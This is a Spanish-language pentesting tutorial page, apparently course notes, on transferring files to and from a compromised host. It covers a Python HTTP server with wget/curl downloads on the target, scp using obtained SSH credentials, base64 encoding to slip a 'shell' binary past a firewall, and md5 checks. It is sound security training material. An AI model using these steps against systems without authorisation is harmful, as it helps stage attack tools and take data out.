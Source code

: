 ```yaml
---
title: Transferencia de archivos
published: true
---
```


Es habitual que, durante un ejercico de _pentesting_, necesitemos transferir archivos al servidor remoto; como _scripts_ de enumeración, _exploits_ o transferir datos a nuestra
máquina de ataque. Si bien algunas herramientas como Metasploit nos permiten usar el comando `Upload` para subir un fichero, debemos aprender métodos para transferirlos desde un
intérprete inverso estándar.

### [](#header-1)wget

Un método es correr un servidor HTTP con Python en nuestra máquina y usar `wget` o `cURL` para descargar el archivo en la máquina remota. Primero, vamos al directorio que contiene
el archivo que nos interesa transferir y lanzamos un servidor HTTP con Python allí:  
`cd /tmp`  
`python3 -m http.server 8000`  
Ahora podemos descargar el archivo en la máquina remota (RCE) con:  
`wget http://<nuestra_IP>:8000/<archivo>`  
Si la máquina remota no tiene `wget` podemos usar `cURL`:  
`curl http://<nuestra_IP>:8000/<archivo> -o <nombre_que_le_damos>`

### [](#header-2)SCP

Otro método de transferencia es `scp`, para usarlo debemos haber conseguido crendeciales de usuario ssh en la máquina remota. Ejemplo:  
`scp <archivo> <usuario>@<IP_remota>:/<directorio_remoto>/<nombre_archivo>`

### [](#header-3)Base64

En algunos casos no podremos transferir el archivo. Debido a, por ejemplo, un cortafuegos que nos impida descargar un archivo desde nuestra máquina. Cuando esto nos ocurra,
podemos usar un truco simple para codificar el archivo en formato `base64`, copiar la cadena en el servidor y descodificarla. Si quisiéramos transferir un binario llamado `shell`,
haríamos:  
`base64 <nombre_archivo> -w 0`  
Copiaríamos la cadena de texto y en la máquina remota:  
`echo <cadena_de_texto> | base64 -d > <nombre_archivo>`  

### [](#header-4)Validar Archivos Transferidos

Para validar el formato de un fichero:  
`file <archivo>`  
Si se corresponde con lo que pretendíamos enviar, lo más seguro es que haya sido un envío exitoso.  
De todas formas, podemos asegurarnos de que no hemos fallado al codificar/descodificar el archivo comparando las cadenas md5 hash:  
1. En nuestra máquina:  
`md5sum <archivo>`  
2. En el objetivo:  
`md5sum <archivo>`
3. Comparamos las cadenas (iguales == correcto)

Hay más métodos de transferencia de ficheros, que podemos estudiar en el módulo *File Transfers*. 

